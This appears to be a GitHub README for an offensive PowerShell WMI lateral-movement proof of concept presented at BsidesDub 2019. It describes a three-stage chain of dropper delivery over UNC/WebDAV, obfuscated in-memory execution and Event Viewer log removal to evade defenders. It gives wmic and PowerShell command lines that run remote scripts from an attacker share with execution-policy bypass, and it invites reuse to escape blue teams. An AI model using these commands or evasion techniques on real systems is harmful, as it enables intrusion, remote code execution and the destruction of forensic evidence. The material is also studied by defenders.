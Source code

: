 Fud WMI for lateral movement (PoC) - ##BsidesDub 2019## 
============

Author: kmkz - [@kmkz_security](https://twitter.com/kmkz_security)

## Intro

This repository contains the PowerShell WMI based Proof of Concept for advanced lateral movement as presented at BsidesDub 2019.

The main goal of this project was to demonstrate the possibilities an attacker might use to bypass detection mechanisms using many techniques in real-life condition.
It implement random class name derivation generation mechanism, payload obfuscation and EventViewer logs removal via WMI un-subscription.
Aditionaly, it use **WMI only** (no WinRM) and do not interact with registry keys to avoid registry monitoring based detection.

Of course, **feel free to reuse code parts for your own purpose in case of need to escape blue team or for simply test-it**.

## Details

   **Stage 1** (executed on attacker's side):
   
The "stage 1" is a simple dropper for payload delivery through UNC/WebDAV using basic obfuscation (require admin. privs for RCE over WMI ofc).
	
It is executed from attackers station (C2C) to run in-memory fud PowerShell without the well-known `IWR/IEX` method calls.

[*] Notes:

UNC/WebDAV could be replaced by WMI namespaces as presented in WmiSploit project `https://github.com/secabstraction/WmiSploit`.
        
However, the executed command is then limited to 8190 chars due to `-EncodedCommand` usage for b64 payload, this is the reason why I prefered this method for the PoC.

An important thing here is that .ps1 file is executed over WMI without `invoke-expression` (iex) nor `wget/invoke-webrequest` (iwr) method to prevent alerting.

Classic stager from command line: 
	```
            wmic.exe /node:"Victime-PC" /user:WORKGROUP\admin process call create "PowErSheLl -eXecUtIonpOliCY BypAsS -NopRofilE -fILe \\Vboxsvr\shared\BSIDESIE\class-derivation.ps1"
	```

    
   **Stage 2** (executed on target):
   
 In-memory build stage 2 using "-File" parameter (obfuscated PowerShell with random Class Derivation).
  
 Randomly generated class derivation and "EventViewer" logs removing for detection mechanisms/blue team evasion.
 
 Stage 1 execution is not removed from logs for debug purpose, it should be modified for a total discretion ;).


   [*] Notes:
     
C2C shell could be used in combination to unicorn to obtains Meterpreter session (stage 2 could be modified depending on the use case):
        
        Examples: `powershell.exe -eXecUtIOnpOlICy BypAsS -File "\\Vboxsvr\shared\BSIDESIE\pwner.ps1"`

        IMPORTANT: Payload delivery using "-File" parameter also permit to add hashes collection when payload (stage 2) is triggered.

   **stage 3** (executed on target):
       
Payload execution and output push/pull via a random file located on attacker's server.
	
## Demo

![](PoC-demo.gif)


## Thanks

- @philiptsukerman - WMI guru - https://github.com/Cybereason/Invoke-WMILM
- @arno0x0x - how to say that... its scripts helped me so often during post-exploitation steps... - https://github.com/Arno0x
- @mattifestation - a ton of useful research and publications
- @secabstraction - https://github.com/secabstraction/WmiSploit
- @all: 'cause we all need others to go further!
